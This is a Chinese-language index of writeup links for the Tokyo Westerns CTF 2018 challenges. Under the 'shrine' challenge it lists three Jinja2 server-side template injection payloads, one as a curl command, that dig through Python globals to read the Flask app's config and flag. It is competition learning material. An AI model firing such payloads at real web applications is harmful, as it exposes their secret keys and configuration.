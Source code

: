比赛时间：2018/09/01 01:00:00 UTC — 2018/09/03 01:00:00 UTC

比赛地址：https://score.ctf.westerns.tokyo/

### Writeup

- **scs7**

  https://ctftime.org/writeup/10861 by hackstreetboys

- **pysandbox**

  https://ctftime.org/writeup/10857 by hackstreetboys

  https://ctftime.org/writeup/10852 by DoubleSigma

  https://github.com/pberba/ctf-solutions/tree/master/20180901_tokyo_western/pysandbox

- **vimshell**

  https://ctftime.org/writeup/10860 by Lorem Checksum

  https://ctftime.org/writeup/10859 by Lattice

  https://ctftime.org/writeup/10854 by DoubleSigma

- **shrine** 

  https://ctftime.org/writeup/10851 by DoubleSigma

  其他几种payload：

  ```bash
  curl -g "http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}"
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{session.__class__.__base__.get.__globals__['warnings']['sys']['modules']['app'].__dict__['app'].__dict__}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.__class__.__dict__['_load_form_data'].__globals__['current_app'].config}}
  ```

- **load**

  https://ctftime.org/writeup/10863 by c0c0nut

- **Swap Returns**

  https://ctftime.org/writeup/10864 by 10sec

- **其他**：

  [Revolutional Secure Angou](https://ctftime.org/writeup/10862) by SealTeam1

  [Tokyo Western CTF 2018 (Qualification Round) Hints for some Crypto challenges](https://github.com/nguyenduyhieukma/CTF-Writeups/tree/master/Tokyo%20Western%20CTF/2018) 

  
